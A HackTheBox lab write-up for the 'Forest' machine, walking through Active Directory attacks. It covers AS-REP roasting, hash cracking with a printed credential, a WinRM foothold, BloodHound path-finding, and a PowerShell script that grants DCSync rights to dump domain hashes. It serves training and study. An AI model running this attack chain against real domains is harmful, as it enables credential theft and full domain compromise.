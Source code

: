 #  Forest - HackTheBox WriteUp

![info_card](/images/forest/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```
Full TCP Nmap Scan:
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain?      syn-ack ttl 127
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-11 19:16:21Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49908/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

#### Smb Enumeration

enum4linux 10.10.10.161. The following users were identified:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## Exploitation

Kerberoasting with Impacket - GetNPUsers.py
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

Doing a bit of cleanup to obtain only the usernames and trying all the users with Impacket GetNPUsers.py


![getnpusers1](/images/forest/getnpusers1.png)

![getnpusers2](/images/forest/getnpusers2.png)


We obtain the hash for user svc-alfresco.

Password crack with Hashcat:


![crack_svc_alfresco](/images/forest/crack_svc_alfresco.png)

#### Foothold

Trying to authenticate using evilwin-rm with credentials svc-alfresco:s3rvice

![auth_alfresco](/images/forest/auth_alfresco.png)

#### Post Exploitation Enumeration

Running Sherlock brought NO luck
 and nothing juicy from WinPeas output.

Couldn't run systeminfo in order to try windows-exploit-sugester

After realising that we are dealing with AD here, bloodhound seems a logical way to go check for privilege escalation.

We download and run Sharphound.ps1 to our victim.

Running bloodhound on our host system

```
apt install bloodhound

neo4j console 

bloodhoud
```

and uploading the output from the victim:

![hound_out](/images/forest/hound_out.png)

This shows that we have a path to Administrator from our svc-alfresco user.

The WriteDacl permissions on svc-alfresco seen from the below screenshot will make it possible to grant DCSync rights to a user and then be then we can further dump the Administrator password.


![hound_out](/images/forest/hound_out2.png)

Searching on google we find many articles related to **Exchange Windows Permissions Privilege escalation.**

## Privilege Escalation

After failing with Privexchange and AclPWN ( note: at this point I was trying to escalate directly with my first user "svc-alfresco")

This this git page appeared to have exactly what was needed.
[github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) 

Add new user: 

`net user chris password1 /ADD /DOMAIN
`

Add user to Remote Management group ( to allow remote 
connections using WinRM/EvilWinRM): 

`net localgroup "Remote Management Users" /add chris
`

Add user to group "Exchange Windows Permissions": 

`net group "Exchange Windows Permissions" 
`

Add user to group "Organization Management(suggested in the article)": 

`net group "Organization Management" /add chris
`

Then follow the script as user chris:

But first import powerview.ps1 in order to leverage cmdlets get-acl and set-acl from AD


```
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Then Secrets Dump:

![sec_dump](/images/forest/sec_dump.png)


Authentication with the hash and root flag:


![root_auth_n_flag.png](/images/forest/root_auth_n_flag.png)


**Extra:** 

The machine had PowerView.ps1, a users.txt and revert.ps1 used for reversing the state of the machine for the svc-alfreco account permissions

Top 5 References:

1.	https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md
2.	https://github.com/dirkjanm/privexchange/
3.	https://github.com/fox-it/Invoke-ACLPwn
4.	https://spookysec.net/2019-12-01-domain-controller-sync/
5.	https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

Failed attempts:

* https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
* https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/
* https://www.theregister.co.uk/2019/01/25/microsoft_exchange_domain_admin_eop/

Likely due to the fact that I was testing with the active user svc-alfresco

Thanks for reading!

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">


